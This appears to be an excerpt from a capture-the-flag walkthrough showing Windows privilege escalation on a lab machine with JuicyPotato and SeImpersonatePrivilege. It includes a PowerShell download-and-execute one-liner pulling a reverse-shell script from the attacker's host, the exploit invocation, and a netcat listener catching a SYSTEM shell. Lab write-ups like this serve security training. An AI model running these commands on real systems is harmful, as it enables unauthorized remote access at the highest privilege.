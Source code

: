 - **privilege**: SeImpersonatePrivilege

### Juicy Potato

1. Download JuicyPotato.exe and bat file which can trigger reverse shell:

```console
└─╼$ ftp $IP
Connected to 10.129.22.130.
220 Microsoft FTP Service
Name (10.129.22.130:qwe): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> binary
200 Type set to I.
ftp> put JuicyPotato.exe
local: JuicyPotato.exe remote: JuicyPotato.exe
229 Entering Extended Passive Mode (|||49693|)
125 Data connection already open; Transfer starting.
100% |****************|   339 KiB   45.39 KiB/s    00:00 ETA
226 Transfer complete.
347648 bytes sent in 00:08 (42.36 KiB/s)
ftp> put admin.bat
local: admin.bat remote: admin.bat
229 Entering Extended Passive Mode (|||49695|)
125 Data connection already open; Transfer starting.
100% |****************|    90      139.50 KiB/s    --:-- ETA
226 Transfer complete.
90 bytes sent in 00:00 (0.15 KiB/s)

└─╼$ cat admin.bat
powershell -c iex(new-object net.webclient).downloadstring('http://10.10.16.24/rev.ps1')
```

2. Check Win10 Enterprise x64's SID, [Ref](https://ohpe.it/juicy-potato/CLSID/Windows_10_Enterprise/).

```console
XblGameSave	{C5D3C0E1-DC41-4F83-8BA8-CC0D46BCCDE3}	{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}	NT AUTHORITY\SYSTEM
```

3. Exploit: use juicypotato to trigger a system-priv reverse shell.

```console
PS C:\qwe> ./JuicyPotato.exe -t * -p admin.bat -l 2333 -c '{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}'
Testing {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} 2333
......
[+] authresult 0
{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4};NT AUTHORITY\SYSTEM
[+] CreateProcessWithTokenW OK

--------------------------------------------------------------------------------

└─╼$ sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.22.130 - - [21/Feb/2024 01:09:43] "GET /rev.ps1 HTTP/1.1" 200 -

└─╼$ sudo rlwrap -cAr nc -lvnp 6666
listening on [any] 6666 ...
connect to [10.10.16.24] from (UNKNOWN) [10.129.22.130] 49706
Windows PowerShell running as user CONCEAL$ on CONCEAL
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
```